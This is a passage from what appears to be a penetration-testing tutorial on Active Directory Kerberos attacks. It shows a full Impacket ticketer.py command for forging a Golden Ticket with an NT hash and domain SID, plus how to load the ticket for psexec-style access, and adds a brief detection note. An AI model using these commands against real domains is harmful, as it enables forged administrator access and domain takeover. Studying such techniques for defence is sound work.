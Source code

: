 
I am going to try my best here to show how you can use Golden Tickets/Inject them etc from Linux but truthfully this is a learning experience for me as I 99% of the time carry this out on Windows bases platforms and/or **Domain-Joined Machines**



***Disclaimer: This is almost a identical copy/paste from Silver Ticket Section besides Syntax***



#### [](#header-4)ticketer.py

Here we find ourselves again on a Linux machine wanting to do Windows things so where do we look? You have one guess. Yep you're right. **Impacket** has a script called `ticketer.py`



I truthfully just learnt about this script after doing some Googling so I am not expert on it's internals but after a brief overview it appears as if `ticketer.py` allows you to generate `Golden Tickets`



The Syntax for Ticketer is as follows

```python
m0chan@kali:/scripts/> python ticketer.py -nthash d7e2b80507ea074ad59f152a1ba20458 -domain-sid S-1-5-21-1473643419-774954089-2222323452 -domain m0chanAD.local -id 500 FakeAdmin 
    
#This will export a .ccache file which can be imported by executing the below command

KRB5CCNAME=/scripts/m0chan.ccache 

We can then pass the -K switch through with any other Impacket scripts and it will automatically use the cached kerberos ticket, such as PSEXec, WMIExec (i think).
```





### [](#header-3)Mitigation / Defending Golden Tickets



Golden Tickets are really hard to monitor for as effectively they are just legitamate`TGT` tickets that are signed/encrypted by the official `KRBTGT` account.  However by default Mimikatz will generate a golden ticket with a life-span of 10 years but can easily be detected. 



****



# [](#header-1) Pass-The-Ticket / Ticket Dump


### [](#header-3)Introduction

You may have already noticed me chatting about `Pass-The-Ticket` above or `PTT` but I figured it required it's own section as it can be extremely useful for not only importing Silver/Golden tickets into a current session but also dumping current Kerberos tickets
